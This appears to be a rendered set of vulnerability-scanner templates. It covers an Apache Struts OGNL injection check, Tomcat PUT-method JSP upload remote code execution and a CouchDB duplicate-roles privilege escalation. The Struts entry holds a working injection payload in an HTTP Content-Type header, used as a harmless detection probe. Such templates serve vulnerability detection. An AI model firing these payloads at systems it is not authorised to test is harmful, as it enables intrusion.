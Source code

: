 ## Requests

### Step - 1

```
GET / HTTP/1.1
Host: {{Hostname}}
Accept-Charset: iso-8859-1,utf-8;q=0.9,*;q=0.1
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Hacker','Bounty Plz')}.multipart/form-data
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*

```

### Matchers

**Type - word**

- words
  1. X-Hacker: Bounty Plz
- part - header

---

# Apache Tomcat Servers - Remote Code Execution

## Description

- Apache Tomcat servers 7.0.{0 to 79} are susceptible to remote code execution. By design, you are not allowed to upload JSP files via the PUT method. This is likely a security measure to prevent an attacker from uploading a JSP shell and gaining remote code execution on the server. However, due to the insufficient checks, an attacker could gain remote code execution on Apache Tomcat servers that have enabled PUT method by using a specially crafted HTTP request.

- severity - high
- tags - rce,tomcat,kev,cisa,vulhub,cve,cve2017,apache,fileupload

## Requests

- Method - PUT

---

# Apache CouchDB 1.7.0 / 2.x \< 2.1.1 - Remote Privilege Escalation

## Description

- Due to differences in the Erlang-based JSON parser and JavaScript-based JSON parser, it is possible in Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to submit \_users documents with duplicate keysfor 'roles' used for access control within the database, including the special case '\_admin' role, that denotes administrative users. In combination with CVE-2017-12636 (Remote Code Execution), this can be used to give non-admin users access to arbitrary shell commands on the server as the database system user. The JSON parser differences result in behavior that if two 'roles' keys are available in the JSON, the second one will be used for authorizing the document write, but the first 'roles' key is used for subsequent authorization for the newly created user. By design, users can not assign themselves roles. The vulnerability allows non-admin users to give themselves admin privileges.
- severity - critical
- tags - cve,cve2017,couchdb,apache
